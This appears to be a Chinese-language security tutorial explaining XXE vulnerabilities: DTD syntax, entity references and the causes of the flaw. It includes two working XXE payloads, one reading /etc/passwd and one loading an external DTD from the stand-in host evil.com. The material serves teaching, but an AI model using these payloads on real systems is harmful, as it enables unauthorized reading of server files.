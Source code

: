 ```xml
```

---

* `内部 DTD` - `<!DOCTYPE 根元素 [元素声明]>`
* `外部 DTD` 
    * `<!DOCTYPE 根元素 SYSTEM "文件名">`
---

## 可以用于 XXE 攻击的 XML 文档举例 {id="xxe-examples"}

```xml
<!-- 利用外部 DTD，读取系统文件 /etc/passwd -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>
<a>
        <!-- 读取到的 /etc/passwd 文件内容被保存在 passwd 变量中 -->
        <value>&passwd;</value>
</a>
```

```xml
<!-- 参数实体定义 -->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE aaa [
    <!ENTITY %f SYSTEM "http://evil.com/evil.dtd">
    %f;
]>
<aaa>&b;</aaa>

<!-- 其中 evil.dtd 文件内容如下 -->
<!ENTITY b SYSTEM "file:///etc/passwd">
```

---

上述 2 个例子中的 `XML 实体` 引用语法略有不同，但都是使用 `ENTITY` 关键字声明，可以当做「变量」来理解。

* `&`
* `%`

---

## XXE 漏洞成因关键 {id="xxe-internals"}

* `XML` 代码中包含了 **加载外部资源** 的「恶意变量声明」
* 服务端代码在解析 `XML` 代码时 **无限制** 解析「恶意变量」声明语句
* 「恶意变量」的值被 **回显** 

---

## XXE 漏洞利用典型效果 {id="xxe-impacts"}
